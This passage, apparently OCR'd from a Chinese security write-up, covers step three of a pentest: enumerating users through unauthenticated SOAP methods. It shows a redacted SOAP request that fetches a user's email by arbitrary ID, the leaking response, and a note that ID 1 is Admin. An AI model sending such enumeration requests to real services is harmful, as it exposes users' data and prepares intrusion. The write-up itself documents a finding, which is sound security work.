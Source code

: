 04  
  
步骤三：通过信息泄露和早期XXE线索进行枚举  
  
安全小白团  
  
  
在获得无认证SOAP方法的访问权限后，我的首要目标是枚举内部用户并确认后端交互。  
  
  
发现敏感用户信息  
  
  
由于存在读取用户邮箱、用户名等方法，我开始测试Re***Email方法，使用以下SOAP POST请求：  
  

```
POST /***/****/****/**finance_users/ HTTP/1.1 
Host: target.com 
Content-Type: text/xml; charset=utf-8
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<soapenv:Envelopexmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;xmlns:web=&#34;http://***.***/&#34;>
 <soapenv:Header/>
 <soapenv:Body>
  <web:Re***Email>
   <id***>242</id***>
 </web:Re***Email>
 </soapenv:Body>
</soapenv:Envelope>
```

  
响应确认，即使是任意ID（如242），如果用户存在，也会返回有效数据：  
  

```
HTTP/1.1 200 OK 
Date: Fri, 25 Apr 2025 12:27:49 GMT 
Server: Apache 
X-Frame-Options: SAMEORIGIN 
X-Powered-By: *** 
Content-Type: text/xml;charset=UTF-8 
***** 
X-XSS-Protection: 1; mode=block 
X-Content-Type-Options: nosniff 
Content-Security-Policy: default-src 'self' 
X-Content-Security-Policy: default-src 'self' 
X-WebKit-CSP: default-src 'self' 
Content-Length: 271


<env:Envelopexmlns:env='http://schemas.xmlsoap.org/soap/envelope/'><env:Header></env:Header><env:Body><**:**exmlns:ns2=&#34;http://**.**/&#34;><return>**@***</return></**:***Email**></env:Body></env:Envelope>
```

  
类似的请求使用ReadUserName揭示了内部用户名——注意ID1 = Admin：  
  